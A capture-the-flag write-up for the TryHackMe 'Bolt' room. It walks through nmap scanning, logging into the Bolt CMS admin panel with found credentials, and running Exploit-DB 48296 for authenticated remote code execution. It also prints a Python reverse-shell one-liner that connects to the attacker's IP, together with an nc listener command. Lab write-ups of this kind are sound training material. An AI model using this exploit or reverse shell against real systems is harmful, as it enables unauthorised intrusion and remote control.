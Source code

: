 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/bolt/","tags":["CTF","write-up","RCE","boltCMS"]}
---
```



![d2a747d195d4607cfd296eb2cffb7af1.png|200](/img/user/attachments/d2a747d195d4607cfd296eb2cffb7af1.png)

---

> [!INFO] Info about Bolt
>  A hero is unleashed


> [!FAQ]- Hints
> This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution.

---
# Active reconnaissance

## Port scan
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 61
80/tcp   open  http     syn-ack ttl 61
8000/tcp open  http-alt syn-ack ttl 61
```

---
# Enumeration (Port and service)
```shell
sudo nmap TARGET_IP -sCV -p 22,80,8000 -oG nmap_enum
```
## OS
Ubuntu
ubuntu18.04.1+deb.sury.org+1
## Port 22 OpenSSH
```c
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
```
## Port 80 Apache
http-server-header: **Apache/2.4.29** (Ubuntu)
http-title: Apache2 Ubuntu Default Page: It works
X-Powered-By: **PHP/7.2.32**-1+ubuntu18.04.1+deb.sury.org2211
## Port 8000 CMS Bolt
8000/tcp open  http    (**PHP 7.2.32**-1)
```c
|_http-generator: Bolt
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Date: Sun, 17 Nov 2024 23:09:35 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Sun, 17 Nov 2024 23:09:35 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: b8e30c
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest:
|     HTTP/1.0 200 OK
|     Date: Sun, 17 Nov 2024 23:09:34 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Sun, 17 Nov 2024 23:09:34 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 631c16
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-title: Bolt | A hero is unleashed
```

> [!check] What port number has a web server with a CMS running?
> 8***

> [!check] What is the username we can find in the CMS?
> ![Pasted image 20241118112632.png](/img/user/attachments/Pasted%20image%2020241118112632.png)


> [!check] What is the password we can find for the username?
> ![Pasted image 20241118112756.png](/img/user/attachments/Pasted%20image%2020241118112756.png)

From the documentation of bolt, we know that the backend is on `/bolt`.
![Pasted image 20241118113434.png](/img/user/attachments/Pasted%20image%2020241118113434.png)
We were redirected to the login page
![Pasted image 20241118113930.png](/img/user/attachments/Pasted%20image%2020241118113930.png)
Login with credentials from above
After login, we can respond the next answer

> [!check] What version of the CMS is installed on the server? (Ex: Name 1.1.1)
> ![Pasted image 20241118123137.png](/img/user/attachments/Pasted%20image%2020241118123137.png)


---
# Vulnerability analysis
## OpenSSH
This version of SSH is vulnerable to Local enumeration
## Apache
## Bolt
### Remote Code Execution (RCE)
> [!check] There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?
> Check with searsploit
> ![Pasted image 20241119101436.png](/img/user/attachments/Pasted%20image%2020241119101436.png)

> [!check] Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)
> Login to msfconsole and execute
> ![Pasted image 20241119101842.png](/img/user/attachments/Pasted%20image%2020241119101842.png)

---
# Exploitation
## Bolt
### Exploiting RCE
In this case I will use the python exploit of `searhsploit`, we need valid credentials to access the admin dashboard. We already have them.
![Pasted image 20241119101436.png](/img/user/attachments/Pasted%20image%2020241119101436.png)
Get the exploit
```shell
searchsploit -m 48296
```

Execute it
```shell
python 48296.py http://bolt.thm:8000 bolt boltadmin123
```
![Pasted image 20241119105831.png|700](/img/user/attachments/Pasted%20image%2020241119105831.png)
![Pasted image 20241119105910.png|400](/img/user/attachments/Pasted%20image%2020241119105910.png)
In this case, this critic vulnerability allows to get a `root` RCE
### Get a reverse shell
On our attacker machine, execute the listener.
```shell
rlwrap nc -lnvp 4747
```

On the victim machine execute the python revere shell code
```shell
export RHOST="10.6.2.59";export RPORT=4747;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

We have the reverse shell
![Pasted image 20241119111032.png](/img/user/attachments/Pasted%20image%2020241119111032.png)

> [!check] Look for flag.txt inside the machine.
> Look for the flag and show up
> ![Pasted image 20241119111443.png](/img/user/attachments/Pasted%20image%2020241119111443.png)

In this case, we don't need to escalate privileges since we already have access to an account with elevated privileges.

---
